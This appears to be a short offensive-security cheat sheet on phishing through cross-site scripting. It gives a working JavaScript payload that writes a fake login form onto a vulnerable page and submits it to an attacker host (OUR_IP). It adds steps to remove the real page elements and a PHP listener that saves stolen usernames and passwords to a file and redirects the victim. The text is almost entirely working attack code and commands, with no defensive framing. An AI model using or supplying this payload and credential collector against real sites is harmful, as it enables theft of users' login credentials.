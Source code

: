 Append login form to XSS payload
```js
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');

```
This can then be expanded upon by cleaning up other input fields / elements on the page using the `document.getElementById().remove()` function

1. Find `id` of other input forms using inspector
2. Append `document.getElementById('urlform').remove();` to login payload
3. Add `<!--` at the end to comment anything out

Set up PHP server to catch credentials, create an index.php with the following and place it into `/tmp/tmpserver`

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

```shell
sudo php -S 0.0.0.0:80
```